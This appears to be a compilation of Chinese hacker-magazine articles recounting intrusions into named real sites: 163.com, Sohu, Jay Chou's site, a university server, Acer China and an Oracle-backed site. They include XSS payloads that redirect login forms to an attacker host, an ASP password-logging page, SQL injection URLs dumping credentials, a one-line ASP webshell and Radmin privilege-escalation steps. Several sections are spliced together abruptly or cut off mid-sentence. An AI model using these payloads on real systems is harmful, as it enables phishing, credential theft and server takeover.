跨站失败，看似过滤了代码，让我们来看看源码，关键代码如下：`<td> < I N P U T name=username value="<script>alert('跨站漏洞!')</script>" size=15 maxLength=18 class=bbox></td>`。提交信息未经任何过滤，我们只需将跨站代码从 value 中分离即可，所以我们提交 `"><script>alert('跨站漏洞!')</script>`，效果如图 2 所示。

跨站成功！下面我们就来精心构造我们的盗取邮件代码，基本原理就是构造修改提交表单的 action 值的 JS 代码，将 action 重定向至我们的表单接收页面，当用户通过我们后面发送的伪造的网易系统邮件提示操作时，我们就盗取了该用户的邮箱密码。

知道原理后我们来完善跨站代码，刚才的提交代码虽然可以执行成功，但 INPUT 表单被我们破坏了，显示不正常，为了让用户看不出我们做了手脚，需要修复表单，我们将代码构造成：`" size=15 class=bbox><script>alert('跨站漏洞!')</script>script><a。`

提交后显示和原页面一模一样，修改 form 的 action 值为我们的表单接收页面（假定为 http://www.abc.com/163.asp）并隐藏状态栏中提交页面时的显示，代码如下：`<script>document.form.action="http://www.abc.com/163.asp";window.status="网易通行证";</script>`。

最终代码为：`" size=15 class=bbox><script>document.form.action="http://www.imtux.com";window.status="网易通行证";%20</script><a`。

由于用户名表单限制了输入长度，所以我们就直接在地址栏提交：

```
https://reg.163.com/logins.jsp?username=" size=15 class=bbox><script>document.form.action="http://www.abc.com/163.asp";window.status="网易通行证";</script><a。
```

为了不让用户看出我们的代码，将 username 值（我们的代码）进行 URL 加密转换，最终利用页面即为：

```
https://reg.163.com/logins.jsp?username=%22%20%73%69%7A%65%3D%31%35%20%63%6C%61%73%73%3D%62%62%6F%78%3E%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%66%6F%72%6D%2E%61%63%74%69%6F%6E%3D%22%68%74%74%70%3A%2F%2F%77%77%77%2E%61%62%63%2E%63%6F%6D%2F%31%36%33%2E%61%73%70%22%3B%77%69%6E%64%6F%77%2E%73%74%61%74%75%73%3D%22%E9%82%AE%E6%B5%8B%E7%BD%91%E6%8E%A5%E7%A0%81%22%3B%3C%2F%73%63%72%69%70%74%3E%3C%61
```

为了蒙蔽对方，用户通过此页面提交登录成功后，我们的表单接收页面 163.asp 在收集密码完毕后会自动转入：

```
https://reg.163.com/logins.jsp?username=%22%20%73%69%7A%65%3D%31%35%20%63%6C%61%73%73%3D%62%62%6F%78%3E%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%27%E8%B4%A6%E6%88%B7%E5%8D%87%E7%BA%A7%E6%88%90%E5%8A%9F%21%27%29%3B%20%77%69%6E%64%6F%77%2E%6C%6F%63%61%74%69%6F%6E%2E%68%72%65%66%3D%27%68%74%74%70%3A%2F%2F%75%69%6E%66%6F%2E%6D%61%69%6C%2E%31%36%33%2E%63%6F%6D%2F%6A%69%73%75%33%2F%69%6E%64%65%78%2E%68%74%6D%27%3B%3C%2F%73%63%72%69%70%74%3E%3C%61
```

页面，解密后即是：

```
https://reg.163.com/logins.jsp?username=" size=15 class=bbox><script>alert('账户升级成功!'); window.location.href='http://uinfo.mail.163.com/jis3/index.htm';</script><a, 功能是弹出所谓的成功提示框并转入网易的一个关于升级方面的页面，这样，用户以为是账户升级成功，殊不知，呵呵……
```

### 这是一个关于网络表单提交、邮件验证与注册流程的示例页面

下面就来编写我们的表单提交页面 163.asp，代码如下：

```asp
<%
dim username, password, iso_file_url
username = Request("username")
password = Request("password")
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Set fso = Server.CreateObject("Scripting.FileSystemObject")
path = server.mapPath("/mails.txt")
set file = fso.opentextfile(path, ForAppending, TRUE)
file.writeline(username) & "~" &
file.writeline(password) & "..."
file.close
set fso = nothing
set file = nothing
response.redirect "https://reg.163.com/logins.jsp?username..."
%>
```

如果你不需要这项政策指定的 EMAIL 信息，则点击旁边这个“免费升级为VIP163邮箱精铜”字符串上传相关信息数据给“鱼儿”们账号，当然测试中，仅半小时就有 60 多个上钩的。

### 一、发送伪造系统邮件

充分利用社会工程学来构造一封伪造的系统信件，让对方根据“系统邮件”的指示访问我们后面要构建的钓鱼站页面，不知不觉中把账户信息提交给我们。

一般发送伪造邮件的手法是利用邮件服务软件，或者利用一些有伪装的邮件代理服务站，诱发邮件信件或试探。除此还可以利用脚本来自动发送邮件。

到 IE 地址栏打开就激活成功了，如图 4。然后我们发送 Login 登录表单的脚本，点击 CONTINUE，根据需要选择 PT EDITOR（单窗口编辑模式）或 RT EDITOR（实时编辑模式），这里建议使用 RT EDITOR。

Send To（发送到）是指 to more than one recipient click here（发送到多个收件人点击这里），Appear From (Email)（在写收件人的邮件地址时要使用我们的邮箱名 163.com），Appear From (Name)（收发信件人的姓名，写成邮件主题的说明）。

然后取消 If you wish to be able to receive a reply to this email check here 之类的勾选框，清空下方信件内容栏，输入我们自己的信件内容（伪造的系统信件内容）就可以了。

现在我们登录自己的邮箱激活账户，进入后台会有一个链接，把它复制到。

终于收获了！

然后邮件转发到指定的 EMAL 端，打开邮件列表中我们的伪装邮件，点击阅读信件，双击即可打开页面。

最后，我们来一段最终效果，如图 6、图 7 所示。

# 让 Sohu 也来帮我们钓鱼

图 罗隶现


相信今年许多参加高考的朋友们都收到过一封 Sohu 的高考快乐通知书吧。前几天我也收到了一封，的确很好玩，但是看网址 http://learning.sohu.com/s2007/07tzs/?stra=%u7F57%u79C9%u7428，大家注意到了么，那个等号后面，正好就是我名字的 16 进制，如图 1 所示。

后面填写一个跨站语句试一下，构造页面 http://learning.sohu.com/s2007/07tzs/?stra=<script>alert("test")</script>。看到了么，成功运行了，如图 2 所示。

我发现在这个网址的等号后面的字符是什么，在网页中就显示什么，查看该页面的源代码，发现网页插入文字的每一处都使用了这个调用函数。（在这里随便截取一段）

```javascript
安吉丽娜·朱莉：我得抓紧学汉语了；连<SCRIPT>
var b=document,var c=lusername;b.write(c);
</SCRIPT>的母语都不值，谈什么国际明星。
```

很显然，这里是调用前文输入 lusername 的内容并且显示出来。再看看前面的代码：

```javascript
var lusername = location.search.split("=")[1];
if(!lusername){
lusername="小网";
}
else{
lusername=unescape(lusername);
}
```

这段代码的意思是把输入的内容赋予值 lusername，如果没有填写则自动改为小网。想到这里，大家想到了什么？对！可以跨站！立马将等号后面的文字改为我们要执行的代码，直接在

哈哈，这足以让我们利用它挂马了，只要我们把那个等号后面的语句修改一下就可以了。比如我们要他弹出我们挂了马的网站（假如是 sohu），就构造网址 http://learning.sohu.com/s2007/07tzs/?stra=<script>open("http://www.sohu.com")</script>。当然，我们在这里也可以插入脚本框架代码，提交地址http://learning.sohu.com/s2007/07tzs/?stra=<iframe height=0 width=0 src="http://www.sohu.com"></iframe>，其中将www.sohu.com替换为我们的挂马地址就可以了。

但这样往往也容易让别人识别，我们可以将后面的有关内容转换成 URL 编码后再插入到后面；比如将<script>alert("test")</script>转换成 URL 编码就是 %3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%74%65%73%74%22%29%3C%2F%73%63%72%69%70%74%3E，这样执行 http://learning.sohu.com/s2007/07tzs/?stra=%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%74%65%73%74%22%29%3C%2F%73%63%72%69%70%74%3E 也能照常使用，如图 3 所示。

好了，到此为止基本的利用方法已经告诉大家了，下一步就是你如何让别人进这个圈子了，这就耍靠你们的“忽悠”能力了，

这样我们就等着“鱼儿”上钩吧！盗取成功后如图 8 所示。
黑客技术最重要的思路，有时灵活多通的思路加上各手法的巧妙结合会达到意想不到的效果！

> **编辑点评：**
几期的跨站文章后，终于有一篇详细利用的方法，而不是简单的弹对话框或挂个网马了事了，我很欣慰，看得出作者熟悉 js 语句所以才有此文章。我在编辑文章的时候便测试了一下这个漏洞，没有成功，似乎补上了，没有关系，授人以鱼，不如授人以渔。

# 渗透周杰伦官方网站

flyh4t[脚本安全小组] & king少[黑客王朝]

- 从本文中你可以学到
- php+mysql5 的注入方法

某日在群里聊天，有朋友丢出一个 jay 官方网站的注入点，闲着无聊就测试了一下，没想到最后轻松地得到了系统权限。我在取得 webshell 过程中遇到点困难，也学到了一点东西。


看到注入点，老规矩，先提交个单引号，返回结果如图 1。错误提示是：

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ' ' at line 1

这个提示是很有玄机的，可以看到单引号没有转义，也就是说安全模式没有打开，这为我们后文得到 webshell 提供了机会。下面猜字段吧，提交：

```
http://www.jay2u.com/jaynews/index.php?action=newsView&newsID=660%20%20and%20%201=2%20Union%20select%201,2,3,4
```

(如图 2)，很轻松地猜出是四个字段。


然后还是按部就班地看用户名和权限，分别提交两条语句：

```
http://www.jay2u.com/jaynews/index.php?action=newsView&newsID=660%20and%201=2%20Union%20select%201,2,3,version() (如图 3)
http://www.jay2u.com/jaynews/index.php?action=newsView&newsID=660%20%20and%20%201=2%20Union%20select%201,2,3,user() (如图 4)
```


Oh yeah!! 是 mysql5 的 root 权限，看到这里我觉得服务器拿下应该问题不大了。mysql5 和 mssql、oracle、db2 等数据库一样，提供了一个系统数据库：information_schema。在这个数据库里我们可以得到很多信息，包括当前用户权限、当前用户权限下可以访问的数据库、表、列名，因此在 sql 注射中，导致直接暴露出数据库。

开始操作，提交：

```
http://www.jay2u.com/jaynews/index.php?action=newsView&newsID=660%20%20and%20%201=2%20Union%20select%201,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME%20from%20%20information_schema.STATISTICS/*
```

，貌似没有出现想象中的效果，返回结果如图 5 所示。


图 5 中的错误提示为：

> Illegal mix of collations (latin1_swedish_ci, IMPLICIT) and (utf8_general_ci, IMPLICIT) for operation 'UNION'

看来是 union 前后字符集不搭配，只好编码一下了，提交：

```
http://www.jay2u.com/jaynews/index.php?action=newsView&newsID=660%20%20and%20%201=2%20Union%20select%201,hex(TABLE_SCHEMA),hex(TABLE_NAME),hex(COLUMN_NAME)%20from%20information_schema.STATISTICS/*
```

这次正常了，结果如图 6 所示。


连上我自己的 mysql，将 16 进制的编码还原：

```
mysql> select 0x6A6179776562;
+----------------+
| 0x6A6179776562 |
+----------------+
| jayweb         |
+----------------+
1 row in set (0.00 sec)
mysql> select 0x41646D696E5F6964;
+--------------------+
| 0x41646D696E5F6964 |
+--------------------+
| Admin_id           |
+--------------------+
1 row in set (0.00 sec)
mysql> select 0x61646D696E;
+--------------+
| 0x61646D696E |
+--------------+
| admin        |
+--------------+
1 row in set (0.00 sec)
```

表名出来了，是 admin，但是没有暴出密码字段名，我们可以通过使用 limit 语法进行表和字段查询，但是数据库有很多表的话，不晓得什么时候才能摸清楚。刚好网站上有个 phpbb 的论坛，还是通过跨库查询论坛数据库吧。看了下，管理员有两个，一个是呵呵。但对于这个漏洞的进一步扩展还要靠大家自己去发掘，虽然这个漏洞显得有些鸡肋，但是连 sohu 也犯这样的小错误就显得太低级了。有什么问题欢迎大家与我交流。

> 【文章里的 URL 编码工具已收录在本期光盘】

# 利用 Radmin 本地提权 exp 拿下某高校服务器

- 从本文中你可以学到
- radmin2 的本地提权方法

放假前因为一个朋友的要求，对某兄弟学校的服务器做了一次安全检测。现在的高校主站一般安全都是做得不错的，所以我通常找那些艺术、人文方面的学院下手，毕竟人家不是专门搞技术的嘛。

先看看艺术学院的网站吧，美工做得蛮好的，首页还有一个网站管理链接，进去一看，验证码感觉特别熟悉，貌似沸腾的系统（因为前些日子利用这个系统做了个小站，所以印象比较深刻^_^）。随便找篇新闻看看，习惯性地在地址栏的参数后面加上 and 1=1 和 and 1=2，返回了不同的内容（图就不截了，大家应该玩得很熟了^_^）。居然没有防注入（这个系统原本应该是有防注入的，估计是修改的时候丢掉了吧？）那就好办多了，上工具吧，一会儿功夫，管理员账号和密码（16 位的 MD5 加密过的）就出来了，从猜解出来的表名也证实了确实是沸腾望多媒体新闻系统，只不过界面做了较大的改动。前段时间有人公布了对这个系统的漏洞利用，只需要

一个可以发文章的普通权限的账号就行。本来想直接注册一个用户的，可是管理员关闭了注册功能，而且有些网站在注册以后还要管理员审核过才行。现在只能从注入得到的管理员密码了，然后拿到 www.cmd5.com 查，一般来说不是特别复杂的密码都能破解。现在好了，进入后台，发布一篇文章，在文章标题那里填上任意标题（自己要记得的哦），然后添加文章，关键的一步：修改这篇文章的标题为一句话 `<%execute request("pass")%>` 代码（如果添加文章的时候直接写上一句马是不行的）。

该系统存在 createasp.asp 和 lastnewsxp.asp 页面，其中 createasp.asp 用来生成首页调用 ASP 页面，就是 lastnewsxp.asp，我们只需要在一句话木马客户端中连接 lastnewsxp.asp 就行了。

首先访问 `http://www.xxx.com/admin/createasp.asp` 页面，返回“首页调用 ASP 已经更新！”后访问 `http://www.xxx.com/lastnewsxp.asp` 页面。如果出现“处理 URL 时服务器出错，请检查源代码。”表示成功写入一句话木马。

打开一句话木马客户端，连接 `http://www.xxx.com/lastnewsxp.asp`，上传一个大马，webshell 就到手了，如图 1 所示。进去一看，服务器权限设置得不错，大部分危险组件也禁用了，看来提权有难度了。


按照习惯，先试试 serv-u 提权。很不幸，失败了。PcAnywhere 和 vnc 的影子都没看到，cmd 不能用，启动目录不能写，郁闷啊，只能先放放了。

现在网上每天都有很多整站系统的漏洞公布出来，相信各位拿几个 webshell 应该不是问题了吧？不过随着管理员的安全意识提高，webshell 提权已经不像当初那么容易了。像 PcAnywhere、serv-u、vnc、FlashFXP、prel 等一些大家常用的提权帮手也被管理员注意上了，再加上一些危险组件的禁用，无疑给我们提权造成了巨大的挑战。如果不喜欢挂马，webshell 基本上没什么利用价值了。

暑假的一天在网络上闲逛，突然看见一篇 Radmin 本地提权文章，对我而言绝对是惊喜啊，毕竟在此之前低权限下对付 radmin 密码只能采用暴力破解，成功率太低了！radmin 确实是一款很不错的远程管理软件，也是很多管理员和黑友们共同的选择。我有种预感：服务器已经在向我招手了，嘿嘿！

我抱着侥幸的心理，利用 webshell 读取 `HKEY_LOCAL_MACHINE\SYSTEM\Radmin\v2.0\Server\Parameters\port`，有数值返回（如图 2），证明服务器上安装了 Radmin，因为返回的数是十进制的，要先用计算器转化成十六进制的（海洋木马有个进制转换工具也可以用）。


接着在本地注册表设置相同的数值，运行 r_server，利用防火墙或者 `netstat -an` 命令就可以知道端口了。然后连接服务器 IP，提示输入密码，说明端口是正确的，而且没有 IP 筛选。接下来再读取 `HKEY_LOCAL_MACHINE\SYSTEM\Radmin\v2.0\Server\Parameters\Parameter` 的值，然后——转化成十六进制就得到了 radmin 密码的 hash 值。

最关键的步骤开始了，首先用 Ollydbg 调试加载 Radmin golds7n 入侵特征版，只有这个版本的 Radmin 才能按下面的步骤进行：

- 1、Ctrl+F 查找命令：JMP EAX（如图 3），然后依次按下 F4、F8。


- 2、右键-搜索-所有常量，十六进制那里填上 10325476（如图 4），在跳出的窗口中选中第一项地址 00A0A8FA 处 F2 下断（如图 5），F9 运行程序。然后你用 radmin 连接要入侵的服务器，这时会弹出输入密码的提示框，我们随便输入一个密码，等你点确定后 OD 也就激活了断点（如图 6）。


- 3、运行下 Ctrl+F9，再往上几行选中红色的那行，就是刚才下断的地方（地址 00A0A8FA）。再次按 F2 取消断点，然后再按 F8（如图 7），鼠标往下走找到 ADD ESP,18 处，按一下 F4。

- 4、这时你在左下角的 hex dump 那里随便找个地方按鼠标左键，然后 Ctrl+G，在弹出的栏里输入 [esp]，注意带大括号的（如图 8）。最后把 hex dump 处第一行（地址 08E6630）选中替换成刚才我们得到的 radmin 密码的 hash 值（如图 9），按 F9 运行，已经顺利实现对服务器的控制了（如图 10）。


后面的事情就容易了，留给大家自由发挥吧。Radmin 这个漏洞的公布可能会掀起网络上又一场腥风血雨了！大家要谨慎利用哦，不要搞破坏啊，到时候警察叔叔上门就不好了^_^。

> [goldsun 版的 radmin.rar 已收录在本期光盘]

**编辑点评：**
radmin 本地提权，这个漏洞已存在地下一年半之久了吧，最近才浮出来。本文阐述得还是比较清楚的，不过在读出 radmin 的端口和密码的注册表键值，转换部分不像作者提到的只转 16 进制就可以了。端口和密码的键值转换，可以套用 `http://www.haiyangtop.net/safety/book/show.asp?id=3830` 这里的两个 vbs 脚本。

# 对 ACER 中国的安全检测

- 从本文你可以学到：
1. Getwebshell 工具的使用
2. Servu 提权程序的使用

## 一、前言

前不久，本人在淘宝上买了一台 ACER 的本本，拿到货首先要做得当然是验一下货了，到官方网站去注册我的本本。注册完后，一个想法出现在我的脑中：ACER 公司的网站安全怎样呢？带着好奇，便开始了这次的检测。

## 二、初步分析

打开网址 `http://www.acer.com.cn`，可以看到有关于宏碁、产品介绍、服务支持、购买地点、合作伙伴、价格册、相关链接等版块，而且都是 asp 动态网页，如图 1 所示。


既然是动态网页，我们当然是找找有没有什么注入漏洞之类的问题了。打开啊 D 注入工具，然后把各版块都浏览一遍，结果，都没有发现注入点。通过查询发现用的是独立服务器，而不是虚拟机，所以旁注也就没有可能了。还有什么路可走呢？当我在啊 D 注入工具中用刚注册的账号登录“Acer 俱乐部”时，啊 D 给我报出了一个注入点提示，如图 2 所示。


有了注入点我们就来检测一下其相关信息，是 DB_OWNER 权限，用户：daniel，数据库：acer，注入点支持多行执行，如图 3 所示。


## 三、服务站 shell 的获得

有了这些信息，我们自然会想起用备份的方法来获得一个 webshell。我们先通过“列目录”功能来确定 WEB 目录地址，慢慢罗列了半个多小时，最后还是不能确定其所在，因为相近的目录太多了，真是很无奈。于是换用暴库的方法来试一试，试过 %5c 和访问数据库连接文件的方法，均以失败告终。后来用“注册表读取”功能，读得如图 4 所示的 WEB 目录位置。

经过列目录核实，该目录其实并不是 WEB 目录所在（方法很简单，通过访问列得的下一级目录，发现有些目录是没有的），## 四、主站 shell 的获得

经过细致的察看，最后终于找到了真实的 WEB 目录：E:\InetPub\newvi\，其下的目录与文件都可以访问到。


我们进行下一步操作，通过备份的方法来到 webshell，可以利用 getwebshell 工具快速地完成。填写好注入地址、数据库名、一句话代码、路径，为了提高成功率最好进行“转 16 进制”操作，然后点击“BackupShell”按钮自动完成备份操作，如图 5 所示。

当我去访问 http://service.acer.com.cn/yi.asp 时发现无法访问，是备份失败了，还是 WEB 目录猜错了呢？通过列表发现，在 E:\InetPub\newvi\下没有生成 yi.asp 这个文件，看来是备份失败了。为什么会不成功呢？

郁闷地再次打开 getwebshell 工具，仔细检查所填写的各项数据都没有发现有什么问题，我们再分步去看下到底中途出了哪些问题。当执行“第一步”操作后，发现了备份失败原因所在，原来是因为没有登录所以没有成功执行备份语句，如图 6 所示。


于是，我们先在下面的页面框内进行登录，然后再次执行备份操作。这次我选择了分步手动操作，以方便发现问题。这回程序显得比较卡，耐心地一步一步执行完，没有发现什么问题。（我们也可以在浏览器里手动提交各条语句，随文附有语句文档，当然也得先进行登录。）我们来试着连接，看来这次是成功了，如图 7 所示。


我们来连接这个文件，成功得到了 webshell，如图 8、9、10。


得到 webshell 后，我们再试着提权，没有发现 Serv-U，但发现服务器装了 pcanywhere 远程控制，很简单就找到了 CIF 配置文件，用 PCAnywhere PassView 工具读出了远程管理账号与密码，装一个 PCAnywhere 客户端，这就等于拿到了最高权限，如图 11、12。


## 五、写在最后

总结一下这次检测的过程，整体来说运气是占了许多份额的，技术方面都是些老的技术的拼接，当然在其过程中也露出了一些管理员不利于安全的习惯问题。写完本文，我将致信给 ACER 的管理员，提醒及时修补漏洞。当大家看到此文时，该站的漏洞应该已经补好了，各位不要再尝试。

欢迎与我交流：我的黑手论坛 ID：elin。

[文章里的工具附 D、getwebshell.exe、PCAnyPass.exe 已收录在本期光盘]


## 编辑点评：

常规的入侵手法，同样的注入套路，就是找到注入点 -> 或后台上传或

# 攻破 PHP + Oracle 筑起的堡垒

图 Linx

CREATED, DATA_OBJECT_ID, GENERATED, LAST_DDL_TIME, OBJECT_ID, OBJECT_NAME, OBJECT_TYPE, OWNER, SECONDARY, STATUS, SUBOBJECT_NAME, TEMPORARY, TIMESTAMP；还可以通过 Sys.dba_objects 得到所有的对象记录，但访问该表需要额外的权限。

从本文中你可以系统学习 PHP+Oracle 的注入流程。

在 Web 开发中，最常见的三对黄金搭档莫过于微软的 ASP(.Net)+ACCESS/MSSQL，开源的 PHP+MYSQL，以及巨人肩膀之上的 JSP+Oracle。Oracle 是一种成熟而强大的数据库系统，广泛用于政府、银行等大型网站中。但由于其价格昂贵、技术门槛高、安全性高，并且身材臃肿，所以研究其攻击方法的人并不多；与此相关的注入资料更是少之又少。今天，我们便来通过一个注入实例简单学习一下 PHP+Oracle 的注入方法。由于 PHP Magic_quotes_gpc 的特性，注入语句不能用“'”，所以 PHP+Oracle 的注入会比 JSP+Oracle 麻烦一些。

## 【前备知识】

### 1. 注入点

PHP+MYSQL 的注入点往往出现于 int（数字）型的变量，.NET 和 JSP 的多在 char（字符）型变量。而 PHP 与 Oracle 搭配时，由于 Oracle 不接受“\”这样的转义（ACCESS、MSSQL 也不接受“\”这样的转义）；所以 PHP Magic_quotes_gpc 的保护几乎形同虚设，所以注入点会同时出现在 int 和 char 型的变量中。

### 2. Oracle 的特性

Oracle 没有 MSSQL 那么强大的现成扩展（如 master.dbo.xp_cmdshell），也没有类似 MySQL load_file、into outfile 这样的语句，所以要直接通过注入获取 shell 不太可能（可能可以，只是我不会）。但 Oracle 有几个特殊的表：

- ① 表 sys.all_tables 这个表记录了数据库中用户自己和用户可以访问的表的信息，它的列包括：OWNER（表的拥有者），TABLESPACE_NAME，TABLE_LOCK，TABLE_NAME（表名），USER_STATS 等。当然，通过 Sys.dba_tables 可以得到所有的表名，但访问该表需要额外的权限。
- ② Sys.all_col_columns 这个表记录了数据库存在的所有列的相关信息，以及各个列的注释，它的列包括：COLUMN_NAME：列名 COMMENTS：列注释 OWNER：列拥有者 TABLE_NAME：列所在的表
- ③ Sys.all_objects 这个表记录了数据库存在的函数包、函数过程和功能调用，它的列包括：

### 3. Oracle 的字符串连接符

Oracle 的字符串连接符为“||”。对于语句 username = 'admin'，由于 Oracle 不支持 16 进制的字符串表示方法，所以不能用 username = 0x61646D696E 代替，解决办法是使用 ASCII 码：username = chr(97)||chr(100)||chr(109)||chr(105)||chr(110)。在这里提供一段 PHP 代码，用于把字符串转换成 ASCII 码：

```php
<?
$a="要转换的字符串";
for($i=0; $i<strlen($a); $i++) {
    $t .= "chr(".ord($a[$i]).")||";
}
echo substr($t,0,strlen($t)-2);
?>
```

### 4. Oracle 的注释符

Oracle 支持“/*...*/”的注释方法，如“select/*comment*/ username from users from table”，还可以用“--”注释掉 SQL 语句的后半部分。它的经典用法就是用在基于 Web 的应用程序上的登录表单中，看看这个例子：

```sql
Select * from users where username='requestUser' and password='requestPassword'
```

这个语句几乎是随处可见的，但只要简单地提交 admin'or'1'='1'-- 就能登录了（或者再加几个 'or'1'='1'--），这时执行的 SQL 语句变成：

```sql
Select * from users where username='admin'or'1'='1'--' and password='requestPassword'
```

在“--”作用下，后面的' and password='requestPassword' 被注释掉了，自然不用密码也能登录。这种漏洞在不少地方还是存在的。

利用数据库的注释符还可以判断数据库的类型，判断方法看下面的实例。

## 【注入实例】

这里，我找到了一个搜索型 SQL 语句的注入点，在 NAMENEY 参数后面加入两个单引号“''”，返回 SQL 运行的出错信息（如图 1）：

ORA-00911：无效字符

```sql
Query : "select * from xxxxx where xxx_NAME like '%1\''%'";
```

先来确定当前数据库的类型，提交“/select.php?find=1&NAMENEY=1'/*”、“/select.php?find=1&NAMENEY=1';--”，分别返回如图 2、3 的出错界面，只有“/select.php?find=1&NAMENEY=1'--”返回正常（如图 4），说明数据库不是 MySQL，也不是 MSSQL，而是 Oracle。

现在看看 Oracle 支不支持多语句运行，提交（如图 5）：“/select.php?find=1&NAMENEY=1';select 1 from sys.dual--”，返回：

> ORA-00911：无效字符

```sql
Query : "select * from xxx where xxx_NAME like '%1\' ;select 1 from sys.dual--%'"
```

看来多语句是行不通的，只能够用单语句的注入。Union 联合查询是个不错的方法，使用 union 查询必须先确定当前 select 语句的字段数。使用 order by 配合二分法判断字段数是个不错的方法，提交：/select.php?find=1&NAMENEY=1' order by 10-- 返回如图 6，没有提示出错。而提交：/select.php?find=1&NAMENEY=1' order by 15-- 时却出错了，提示如图 7。

> ORA-01785：ORDER BY 项必须是 SELECT-list 表达式的数目

```sql
Query : "select * from xxxx where XXXNAME like '%1\' order by 15--%'"
```

所以字段数在 10~15 之间。用这个方法，很快便知道字段数是 13。提交以下 URL 确定一下（如图 8）：

```sql
/select.php?find=1&NAMENEY=1111' union select null,null,null,null,null,null,null,null,null,null,null,null,null/* 13 个 null*/ from all_tables--
```

返回正常页面。

注意：由于 Oracle 是严格区分数据类型的，所以这里不能用 union select 1,2,3,4,6…代替，否则会出现以下错误：

> ORA-01790：表达式必须具有与对应表达式相同的数据类型

```sql
Query : "select * from xxxx where XXXNAME like '%1111\' union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from all_tables--%'"
```

现在来判断各个字段的数据类型，同时找出在 WEB 中显示出字段值的字段。方法是从第一个 null 开始，逐一改成数字 1、2、3、4……如果出错，就表示该 null 所在字段为 char 型，反之为 int 型。提交：/select.php?find=1&NAMENEY=1111' union select 1,null,null,null,null,null,null,null,null,null,null,null,null from all_tables-- 返回正常（如图 9），说明第一个 null 所在字段为 int 型，但“1”并没有打印在返回的页面中。再来看第二个字段：/select.php?find=1&NAMENEY=1111' union select 1,2,null,null,null,null,null,null,null,null,null,null,null from all_tables--，返回的页面提示“表达式必须具有与对应表达式相同的数据类型”（如图 10），说明第二个 null 所在字段为 char 型，用以下的 URL 确定一下：/select.php?find=1&NAMENEY=1111' union select 1,chr(124)/*|*/,null,null,null,null,null,null,null,null,null,null,null from all_tables--（如图 11），返回正常，同时可以看到“|”（即 chr(124)）显示在返回的页面中（如图 11）。因此，我们找到了一个可以在 web 页面打印的字段。有了这个字段，后面的字段就不用再猜测了。

现在开始查看数据库中存在的表。提交：/select.php?find=1&NAMENEY=1111' union select 1,从返回的图 12 可以看到数据库中存在的表。

我们可以从返回的这些表里面找到存放用户账号的表名，而不用像注入 access 那样手工猜测。我们还可以通过“like”语句查询存放用户账号的表、列。方法是从 sys.all_col_comments 中搜索包含“PASS”、“USER”关键字的表名和列名。提交：

```sql
/select.php?find=1&NAMENEY=1' union select 1, column_name||chr(124)||table_name||chr(124)||comments||chr(124)||owner, null, null, null, null, null, null, null, null, null from all_col_comments where table_name like chr(37)||chr(85)||chr(83)||chr(69)||chr(82)||chr(37)/*USER*/ or column_name like chr(37)||chr(80)||chr(65)||chr(83)||chr(83)||chr(37)/*%PASS%*/--
```

返回如图 13。


显然，HZ365.T_USER_INFO 表就是记录账号信息的表，看看这个表包含的所有字段：

```sql
/select.php?find=1&NAMENEY=1' union select 1, column_name||chr(124)||table_name||chr(124)||comments||chr(124)||owner, null, null, null, null, null, null, null, null, null from all_col_comments where table_name=chr(84)||chr(95)||chr(85)||chr(83)||chr(69)||chr(82)||chr(95)||chr(73)||chr(78)||chr(70)||chr(79)--
```


返回如图14，从返回结果可以看到保存用户名和密码的字段分别为 USER_NAME 和 PASSWORD，现在就可以从 HZ365.T_USER_INFO 表中读数据了，提交：

```sql
/select.php?find=1&NAMENEY=1' union select 1, USER_NAME||chr(124)||PASSWORD, null, null, null, null, null, null, null, null, null from HZ365.T_USER_INFO--
```


在返回的图15中，所有的用户名和密码都一览无遗。至此，我们读取用户账号、密码的目的也就达到了。

## 【函数包、函数过程和功能调用】


在 Oracle 中，你可以从一个 SQL 语句中调用任何一个 PL/SQL 语句。PL/SQL 提供了许多内置函数包、函数过程、功能调用等。以下 SQL 语句从 all_objects 表查询存在的 PACKAGE、FUNCTION，以及 PROCEDURE：

```sql
SQL>select created, owner, object_type, object_name from all_objects where OBJECT_TYPE IN('PACKAGE', 'FUNCTION', 'PROCEDURE');
```

转成 sql 注入的语句即为：

```sql
/select.php?find=1&NAMENEY=1111' union select 1, owner||chr(124)||object_type||chr(124)||object_name, null, null, null, null, null, null, null, null, null from all_objects where OBJECT_TYPE IN (chr(80)||chr(65)||chr(67)||chr(75)||chr(65)||chr(71)||chr(69)/*PACKAGE*/, chr(70)||chr(85)||chr(78)||chr(67)||chr(84)||chr(73)||chr(79)||chr(78)/*FUNCTION*/, chr(80)||chr(82)||chr(79)||chr(67)||chr(69)||chr(68)||chr(85)||chr(82)||chr(69)/*PROCEDURE*/)--
```


从图16可以看到这个数据库存在的 PACKAGE、FUNCTION，以及 PROCEDURE，这些 objects 包括系统内置的和用户自己创建的。

你可以在注射语句中直接调用这些函数、过程。如函数 sys.login_user 可以返回登录到数据库上的所有用户，那么提交

```sql
/select.php?find=1&NAMENEY=1111' union select 1, 0||sys.login_user, null, null, null, null, null, null, null, null, null, null, null from anytable——便能调用它。
```

尽管 Oracle 内置的包 UTL_FILE 能够读写文件，但它只能在 PL/SQL 语句块中才能执行，或者直接键入到 SQL*PLUS 中执行，所以不要企图通过这个包来导入 webshell。有一部分 object 是用户自行创建的，幸运的话，也许能找到管理员自建的可以读写文件或执行系统命令的 function，那么通过注射取得 webshell 就不再困难了。

这是一次很典型的注入：Web 界面老实地把 sql 的出错信息打印出来，方便我们理解 sql 注入的各个步骤。而在注入 JSP+Oracle 的时候，你可能就没那么幸运了：JSP 一般在遇到 SQL 异常的时候便会中止运行，而 JAVA/JSP 程序员很少有抛出 SQL 异常到 WEB 页面的习惯。这时候你就需要猜测它的 sql 语句了，这种黑箱操作需要很大运气和经验，只有熟能生巧，我们才能在

# 我是这样黑掉 chinaunix 的

图：张朋亮

chinaunix 是国内比较大的一个 unix 站点，天天上这个网站学习 Linux，又跟这个站点的一些前辈有些接触，发现都挺牛的。看着这么大的网站和这么多的人气，料想服务器安全肯定做得不错了，不晓得脚本做得如何？正好工作累了就放松休息下，能不能黑进首页写上到此一游，纯属娱乐和友情检测，他们现在将这些已知的漏洞应该都补了……

